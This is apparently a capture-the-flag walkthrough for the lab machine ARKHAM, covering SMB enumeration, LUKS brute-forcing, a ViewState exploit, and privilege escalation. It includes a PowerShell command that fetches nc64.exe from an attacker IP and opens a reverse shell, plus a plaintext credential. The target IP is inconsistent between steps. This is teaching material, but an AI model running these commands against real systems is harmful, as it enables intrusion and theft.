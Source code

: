 Using crackmapexec, Identifying the Machine, smbmap, Listing Shared Resources, Downloading Files, smbclient, Decrypting LUKS-Encrypted Backup, bruteforce-luks, cryptsetup, Decrypting and Exploiting Web.xml Information, Privilege Escalation, PowerShell Payload, Escalating Privileges as User 'batman', Secure Credential Object, Accessing Administrator's Files, Retrieve the Administrator Flag, SMB and Cybersecurity Tasks

1. **Using crackmapexec to Identify the Machine:**
   To identify the target machine, you can use `crackmapexec`. Run the following command:
   ```bash
   crackmapexec smb 10.10.10.178
   ```

2. **Listing Shared Resources with smbmap:**
   After identifying the machine, you can list shared resources using `smbmap`. First, list shared resources without recursion:
   ```bash
   smbmap -H IP -u 'null'
   ```
   To list information from each resource recursively, use the following command:
   ```bash
   smbmap -H IP -u 'null' -r
   ```

3. **Downloading Files with smbclient:**
   Suppose you find a file named "appserver.zip" in the 'Batshare' resource. You can download it using `smbclient`. Use the following commands:
   ```bash
   smbclient //10.10.10.130/BatShare -N
   get appserver.zip
   ```

4. **Decrypting LUKS-Encrypted Backup:**
   Upon extracting the .zip file, you'll find two files: one containing information and users and another encrypted with LUKS. To decrypt it, you can use the following steps.

   a. Utilize the "bruteforce-luks" tool (https://github.com/glv2/bruteforce-luks) for brute-forcing the password:
   ```bash
   ./bruteforce-luks -f PASSWORD backup.img
   ```

   b. Once you have the password, use `cryptsetup` to open the backup:
   ```bash
   cryptsetup luksOpen backup.img arkhamdata
   ```

   c. Create a mount point and mount the decrypted backup:
   ```bash
   ls /dev/mapper/arkhamdata
   mkdir /mnt/arkhamdata
   mount /dev/mapper/arkhamdata /mnt/arkhamdata
   tree -fas
   ```

5. **Decrypting and Exploiting Web.xml Information:**
   Compare the files _web.xml_ and _web.xml.bak_. The latter file contains valuable information:

   ```md
   org.apache.myfaces.SECRET: SnNGOTg3Ni0=
   org.apache.myfaces.MAC_ALGORITHM: HmacSHA1
   ```

   You can use a Python script to decrypt the _javax.faces.ViewState_ parameter. The script can be found here: https://github.com/Kyuu-Ji/htb-write-up/blob/master/arkham/arkham-exploit.py

6. **Privilege Escalation:**
   After gaining access to the system, you can perform privilege escalation.

   a. Download a payload using PowerShell:
   ```bash
   cmd /c powershell IWR -uri http://10.10.14.8/nc64.exe -OutFile C:\\Windows\\Temp\\x.exe
   ```

   b. Execute the payload to establish a reverse shell:
   ```bash
   cmd /c C:\\Windows\\Temp\\x.exe -e powershell 10.10.14.8 1234
   ```

7. **Escalating Privileges as User 'batman':**
   To escalate privileges as 'batman', create a secure credential object and execute commands.

   a. Create a secure credential:
   ```bash
   $secPass = ConvertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
   $cred = New-Object System.Management.Automation.PSCredential('ARKHAM\batman', $secPass)
   ```

   b. Run commands as 'batman':
   ```bash
   Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { whoami }
   ```

8. **Accessing Administrator's Files:**
   If you are a member of the 'administrators' group, you can access the administrator's files by creating an SMB share. Use these commands:
   ```bash
   net use z: \\ARKHAM\C$
   z:
   cd Users\Administrator\Desktop
   ```

9. **Retrieve the Administrator Flag:**
   After accessing the administrator's files, you can retrieve the administrator's flag to complete the machine.

That's the step-by-step tutorial for working with SMB and cybersecurity-related tasks.
